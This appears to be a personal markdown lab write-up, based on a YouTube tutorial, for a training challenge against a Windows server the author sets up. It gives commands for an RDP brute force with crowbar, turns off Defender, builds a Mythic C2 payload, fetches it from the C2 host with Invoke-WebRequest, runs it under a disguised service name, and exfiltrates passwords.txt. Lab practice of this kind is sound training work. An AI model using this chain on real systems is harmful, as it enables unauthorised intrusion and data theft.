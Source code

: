 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <MYDFIR-WIN-emaan-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        
![[Pasted image 20251018163154.png]]
---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<Challenge-WIN-Haji-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    

---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami ipconfig net user net group net user Administrator`

---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
    
- Disable Real-time protection and other security features.
    

---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<Challenge-Mythic-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo`
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
        
    - Output Format: **WinExe**
        
    - Commands: **Include All**
        
    - C2 Profile: **HTTP**
        
    - Callback Host: `http://<Challenge-Mythic-IP>`
        
    - Port: `80`
        
    - Payload Name: `ChallengeMythicPayload`
        

---

### 9. Hosting and Downloading Payload

1. **Download Payload**
    
    `wget <payload_download_link> --no-check-certificate mv <payload_name>.exe servicehost-haji.exe`
    
2. **Serve Payload over HTTP**
    
    `ufw allow 9999 python3 -m http.server 9999`
    
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
4. **Allow Port 80**
    
    `ufw allow 80`
    
5. **Execute Payload**
    
    `.\servicehost-haji.exe`
    
6. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo